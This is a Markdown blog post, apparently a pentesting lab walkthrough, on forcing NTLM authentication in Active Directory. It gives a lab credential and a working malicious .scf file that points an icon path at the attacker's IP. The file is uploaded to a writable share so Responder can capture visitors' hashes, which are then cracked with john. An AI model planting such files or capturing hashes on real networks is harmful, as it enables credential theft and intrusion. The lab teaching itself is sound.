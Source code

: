 ```yaml
---
title: Force Authentication
date: 2022-06-03 05:49:33 +0800
categories: [Infrastructure Pentesting, Active Directory]
tags: []  
---
```


# Force Authentication

# Exploitation

In this lab, we will use this credential `saifullah:sPassword@123` to enumerate our target machine.

Let's start by enumerating shares.

![relay](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/smbrelay1.png)

Here we have `Read, Write` permission on `devops` share. Which means we can upload a file to the share.

We will create a malicious file that will force the target machine to try to authenticate with our machine, which will allow us to obtain ntlm hash of the user.

```batch

[Shell]
Command=2
IconFile=\\10.42.0.1\\share\noexist.txt
[Taskbar]
Command=ToggleDesktop

```
Now we will save it in .scf file and then upload it to the `devops` share.

![relay](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/smbrelay2.png)

We will run `responder` and wait for someone to access the `devops` share.

![relay](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/smbrelay3.png)

We can retrieve the ntlm hash of anyone who accesses the devops share. 

Let's login to the victim machine and access the share.

![relay](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/smbrelay4.png)

Let's go back to our machine and check it.

![relay](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/smbrelay6.png)

As you can see we have got ntlm hash of the administrator. We will save it and crack it using `john`.

![relay](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/smbrelay7.png)

We were able to recover the ntlm hash.

# References

